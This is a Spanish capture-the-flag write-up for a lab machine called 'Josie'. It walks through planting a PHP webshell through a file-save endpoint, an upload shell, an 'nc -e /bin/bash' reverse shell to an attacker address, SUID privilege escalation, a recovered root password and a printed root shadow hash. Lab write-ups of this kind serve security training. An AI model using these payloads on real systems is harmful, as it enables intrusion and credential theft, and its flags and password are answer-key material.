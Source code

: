 # Hackplayers 2018 - Josie

Maquina ‘Josie’ 10.42.0.151

Comenzamos realizando un escaneo con nmap encontramos los siguientes servicios

```
$ nmap -sV 10.42.0.151
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
81/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
```

La aplicación tiene bastantes vulnerabilidades, aprovechamos una que nos permite subir archivos para subir una webshell simple `<?php system($_GET[1]) ?>`.

![](img/josie-web1.png)

```
$ curl '10.42.0.151/dapur/apps/app_theme/libs/save_file.php' --data 'content=<?php system($_GET[1]) ?>&src=shell.php'
```

Probamos la webshell

```
$ curl 'http://10.42.0.151/dapur/apps/app_theme/libs/shell.php?1=whoami'
www-data
```

Ahora subimos otra webshell, que nos permita subida de archivos para trabajar subir cualquier archivo grande de forma cómoda. Para ello, podemos utilizar la vulnerabilidad anterior, o el comando echo en la webshell.

```
<?php if(is_uploaded_file(@$_FILES["userfile"]["tmp_name"])) {move_uploaded_file($_FILES["userfile"]["tmp_name"],
 $_FILES["userfile"]["name"]);echo "Uploaded: <b>".$_FILES["userfile"]["name"]."</b>";}?>
 <form enctype="multipart/form-data" action="" method="post"><input name="userfile" type="file">
 <input type="submit" value="Upload"></form>
```

```
curl '10.42.0.151/dapur/apps/app_theme/libs/save_file.php' --data 'content=<?php if(is_uploaded_file(@$_FILES["userfile"]["tmp_name"])) {move_uploaded_file($_FILES["userfile"]["tmp_name"], $_FILES["userfile"]["name"]);echo "Uploaded: <b>".$_FILES["userfile"]["name"]."</b>";}?><form enctype="multipart/form-data" action="" method="post"><input name="userfile" type="file"><input type="submit" value="Upload"></form>
&src=upload.php'
```

![](img/josie-upload.png)

Podemos usar la opción “fácil” para hacer una shell reversa de b374k o utilizar la ejecución de comandos con `nc -e /bin/bash 10.42.0.201 8080`

Una vez recibimos la conexión reversa, convertirmos la shell en interactiva.

```
python -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty -icanon -isig -echo;fg;stty sane
```

La flag se encuentra ‘escondida’ en /home/alice/ con el nombre .flag.txt. Al no tener restricción de permisos, la leemos directamente.

```
$ cat .flag.txt
Flag{20ea...}
```

En el home de alice también tenemos un archivo pcap para la prueba de Forense.

Tambien tenemos una prueba con nombre Elevate. Se trata de un binario x86 sin suid que a primera vista nos da la contraseña de root si lo resolvemos.

Para trabajar mejor con el vamos a instalar [gdb-peda](https://github.com/longld/peda), como no tenemos acceso directo a internet en la máquina, decargamos el repositorio en /tmp/www-data

```
cd /tmp/www-data
export HOME=/tmp/www-data
echo "source ~/peda/peda.py" >> ~/.gdbinit
gdb /home/alice/Elevate/root
```

Analizando el binario, se obtiene una de las soluciones posibles.

```
$ echo ArtVFqs28tXhd | ./root z z z z z z z z z z z z z z z z z z z z z z z z z z z z z z z z A
```

Al parecer esto no sirve para nada realmente útil, ya que no es la contraseña de ningún usuario del sistema.

## Actualización

La solución correcta se obtenía utilizando el carácter ‘1’ 81 veces. Observando que strcat añade la letra Q al texto introducido. Obteniendo la contraseña de root ArtVFqs28tXhdQ.

```
$ echo ArtVFqs28tXhd | ltrace ./root $(python -c 'print "1 "*81')
...
strcat("ArtVFqs28tXhd", "Q\001") = "ArtVFqs28tXhdQ\001"
strcmp("ArtVFqs28tXhdQ\001", "ArtVFqs28tXhdQ\001")
puts("Congratz! You know now the password.")
```

## PrivEsc

Pasamos a analizar vulnerabilidades en el sistema que nos permitan escalar privilegios. Para ello se utiliza [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

```
[+] SUID/SGID Files and Directories
    -rwsrwxrwx 1 root root 160164 Jul 13  2013 /usr/bin/hnb
```

```
www-data@Josie:/$ hnb -ui cli -a /root/flag.txt
hnb - hierarchical notebook   http://hnb.sourceforge.net/
ascii import, imported "/root/flag.txt"
Welcome to hnb 1.9.18
type ? or help for more information
/>ls
flag{14ui...}  < 
```

![](img/josie-hnb.png)

También podemos utilizar hnb para leer el hash de root, y posiblemente modificarlo para poder escalar privilegios. `root:$6$pyY9Sms.$1LBD1lxwIDbuZztQOCgv7hMDyO2zzVCHWrAMRhR8UmfEAaZYcDVmpQ08GsIFywGrQKQU3Bswn6`

